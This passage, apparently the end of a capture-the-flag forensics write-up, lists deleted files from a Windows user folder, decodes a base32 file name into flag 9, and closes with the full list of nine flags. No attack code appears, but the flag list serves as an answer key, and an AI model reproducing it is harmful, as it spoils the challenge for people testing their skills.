C:\Users\aleksej.pazjitnov\Downloads\INKEMW2QIVHFIT2NJFHE6U25.txt [84 bytes] deleted on Mon Aug 26 16:56:21 2024 Z
C:\Users\aleksej.pazjitnov\Downloads\NewFileTime_x64.zip [254170 bytes] deleted on Mon Aug 26 16:51:52 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\Alla mina katt-bilder.zip [13929 bytes] deleted on Mon Aug 26 16:38:40 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\Alla mina katt-bilder.zip [13929 bytes] deleted on Mon Aug 26 16:56:38 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\cat.jpg [17030 bytes] deleted on Mon Aug 26 16:39:06 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\cat.jpg [17030 bytes] deleted on Mon Aug 26 16:51:18 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\dog.jpg [28911 bytes] deleted on Mon Aug 26 16:39:32 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\dog.jpg [28911 bytes] deleted on Mon Aug 26 16:56:37 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\kitty.jpg [18556 bytes] deleted on Mon Aug 26 16:39:23 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\kitty.jpg [18556 bytes] deleted on Mon Aug 26 16:56:46 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\puppy.jpg [21384 bytes] deleted on Mon Aug 26 16:38:38 2024 Z
C:\Users\aleksej.pazjitnov\Pictures\puppy.jpg [21384 bytes] deleted on Mon Aug 26 16:56:46 2024 Z
```

The first observation was the name *Aleksej Pazjitnov* who is the Russian that developed Tetris. During the second or third scan through the file names I observed the file *C:\Users\aleksej.pazjitnov\Downloads\INKEMW2QIVHFIT2NJFHE6U25.txt* and with 84 bytes that could be interesting. But i first entered the file name *INKEMW2QIVHFIT2NJFHE6U25* into CyberChef and used the *magic* function that suggested that the encoding used is *base32* which gave the flag **CTF[PENTOMINOS]**

Flag 9 is **CTF[PENTOMINOS]**

## Flags

- **CTF[E65D46AD10F92508F500944B53168930]** (*RickRolled*)
- **CTF[AES128]**
- **CTF[OPPORTUNISTICALLY]**
- **CTF[TOPPALUA]**
- **CTF[IRRITATING]**
- **CTF[OR]**
- **CTF[RHODE_ISLAND_Z]**
- **CTF[HAPPY BIRTHDAY]**
- **CTF[PENTOMINOS]**